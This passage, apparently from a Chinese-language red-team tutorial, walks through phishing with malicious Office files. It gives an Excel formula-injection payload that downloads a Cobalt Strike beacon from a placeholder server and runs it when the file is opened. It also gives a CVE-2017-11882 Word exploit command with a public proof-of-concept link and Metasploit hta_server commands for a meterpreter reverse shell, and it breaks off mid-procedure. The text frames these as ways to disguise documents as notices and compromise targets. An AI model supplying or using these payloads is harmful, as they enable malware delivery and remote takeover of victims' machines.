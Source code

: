 Excel注入是一种将包含恶意命令的excel公式插入到可以导出csv或xls等格式的文本中，当在excel中打开xls文件时，文件会转换为excel格式并提供excel公式的执行功能，从而造成命令执行。  
  
**利用excel注入弹出计算器**  
  
注入代码：=cmd| '/c calc'! '!A1'  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7VL1aAHhIIkIJlKK9OXGnmKeyhptM4hT4WvjdicSh9XIgGmDYtdUh0CBA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7VKXjr6zgXPZYZXgVbTxRKpQqoTBovibMqibe2nPV4TPbbO8TMT0BDMf7w/640?wx_fmt=png&from=appmsg "")  
  
**利用excel注入上线cs**  
  
步骤一：使用cs生  
成exe后门，并放到服务器上  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7VDJyaickCfUWJABCph4sESIrKlavEmcgqTm6uJ2gjAFHITl6yibL5JtLQ/640?wx_fmt=png&from=appmsg "")  
  
步骤二：更换恶意代码  
  
=cmd| '/c curl http://xxx.xxx.xxx.xxx/beacon.exe --output C:\Windows\temp\win.exe && C:\Windows\temp\win.exe' ! 'A1'  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7VndktmaNsoz3zqciaXFUBmTFsnuRsO2aIeQURBh0YJMTpX4ecy9icSXzg/640?wx_fmt=png&from=appmsg "")  
  
当双击打开该excel时就会执行恶意代码下载cs后门并运行 ，上线cs  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7Vibljyr1hZWGgU5l6V9Sk7ZNKDibnf1hhOmChU9jkZ5G1oHfPYX3icW8sg/640?wx_fmt=png&from=appmsg "")  
### 0x05.CVE-2017-11882  
  
cve-2017-11882漏洞也是word钓鱼的一种方式，相比宏病毒更加的隐蔽，把word伪装成某某通知文件，目标点击后就直接可以直接上线。  
  
利用cve-2017-11882弹出计算器：  
  
下载poc：  
https://github.com/Ridter/CVE-2017-11882  
  
生成带有病毒的word文件  
```
python2 Command109b_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o test.doc
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7VMlSEQzxiaqeH26S0UALvSaXV5zyKSwBKguZiadUNtSfCQGBzViciadsC1g/640?wx_fmt=png&from=appmsg "")  
  
双击test.doc，弹出计算器  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7VyJLdbHLaEOWNolhxXibjMDAW4o4kAbrdltl3MecUdPwiaKRGzpGiciaeKw/640?wx_fmt=png&from=appmsg "")  
  
利用cve-2017-11882上线msf  
  
步骤一：使用exploit/windows/misc/hta_server生成病毒  
```
use exploit/windows/misc/hta_server
set payload windows/meterpreter/reverse_http
set lport 4444
show options
exploit
```  
  
